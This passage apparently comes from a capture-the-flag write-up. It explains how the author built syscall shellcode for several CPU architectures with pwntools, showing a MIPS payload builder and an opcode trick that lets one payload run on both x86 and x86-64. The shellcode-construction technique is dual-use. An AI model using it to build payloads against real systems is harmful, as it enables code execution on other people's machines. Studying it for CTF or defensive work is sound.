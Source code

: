 As you can see, it's basically the same thing where the register `rN` is replaced with `xN` and the syscall number is stored in `x8` instead of `r7`.

Lastly, we have MIPS left:

```python
def get_mips(sys_num, arg1, arg2):
  p1 = int(pack_str(arg2[:4]),16)
  p2 = int(pack_str(arg2[4:]),16)

  payload = asm('''
    sub $sp, $sp, 8
    add $t2, $sp, 0
    add $a1, $t2, 0

    li $t1, {p1}
    sw $t1, ($t2)
    
    add $t2, $t2, 4
    li $t1, {p2}
    sw $t1, ($t2)
    
    
    li $a0, {arg1}
    li $v0, {sys_num}

    syscall
  '''.format(arg1=arg1, sys_num=sys_num, p1=p1, p2=p2), arch = 'mips', os = 'linux')

  print disasm(payload, arch = 'mips', os = 'linux')

  return payload
```

This is the one that took the longest to complete because of two reasons. One, I made a stupid mistake of writing `return ''` instead of `return payload` (that took a while to figure out). Second, I was not able to get the instruction pointer in MIPS and had to load the string onto the stack in the end.

## The FUN part

Now, after 2-3 (maybe more) hours of hard work, I finally got all five shellcodes to work individually, and now I have to integrate all of them into one.

### The weird trick for x86 and x86-64

So the magic opcode `31c941e2XX` will be interpreted by x86 as:

```python
0x00000000: xor ecx, ecx
0x00000002: inc ecx
0x00000003: loop XX+5
```
